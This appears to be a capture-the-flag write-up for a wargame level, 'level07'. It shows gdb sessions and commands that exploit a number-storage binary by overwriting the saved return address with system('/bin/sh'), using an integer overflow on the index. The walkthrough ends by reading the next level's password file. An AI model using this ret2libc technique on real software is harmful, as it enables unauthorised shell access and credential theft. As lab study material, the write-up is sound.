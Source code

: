 The binary lets us write number in unsigned values almost anywhere we want. So we basically want to write on the eip of main to jump into system with `/bin/sh`. \
Let's see that in action:
```
$ # lets setup our env
$ export SH=/bin/sh

$ # we break at the ret instruction in main
(gdb) b *main+718
Breakpoint 1 at 0x80489f1

$ # we get to the breakpoint with the quit command
(gdb) r
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: quit

Breakpoint 1, 0x080489f1 in main ()

(gdb) x/wx $esp
0xffffdc2c:     0xf7e45513
|_ this is our eip               

$ # which points to the next instruction in the libc wrapper
(gdb) x/wx 0xf7e45513
0xf7e45513 <__libc_start_main+243>:     0xe8240489

$ # now lets get the address to the start of the buffer
(gdb) b *main+110
Breakpoint 3 at 0x8048791

(gdb) r
Breakpoint 3, 0x08048791 in main ()

(gdb) x/wx $esp+0x24
0xffffda64:     0x00000000
|_ buffer starts here

(gdb) p 0xc2c - 0xa64
$1 = 456
     |_ divided by 4, it will give 114 which is the index we need to specify to write to the eip

$ # now lets get the infos we want
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+9999999,"/bin/sh"
0xf7f897ec

(gdb) p 0xf7e6aed0
$3 = 4159090384
     |_ this is system as an uint32

(gdb) p 0xf7f897ec
$4 = 4160264172
     |_ this is our /bin/sh address as an uint32
```

The index we pass in parameter will be multiplied by 4 to get the index to the zone. \
Unfortunately if we try to write the eip by specifying the index 114, we got the 'Reserved for wil message'. \
But by doing a little int overflow, we managed to write at this address anyway ! 

```
bash$ python -c 'print (0xffffffff + 1) / 4 + 114'
1073741938

bash$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4160264172
 Index: 116                     # we store /bin/sh in the address where system will look for its argument
 Completed store command successfully
Input command: store
 Number: 4159090384
 Index: 1073741938              # write the eip with system
 Completed store command successfully
Input command: quit             # quit to ret
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

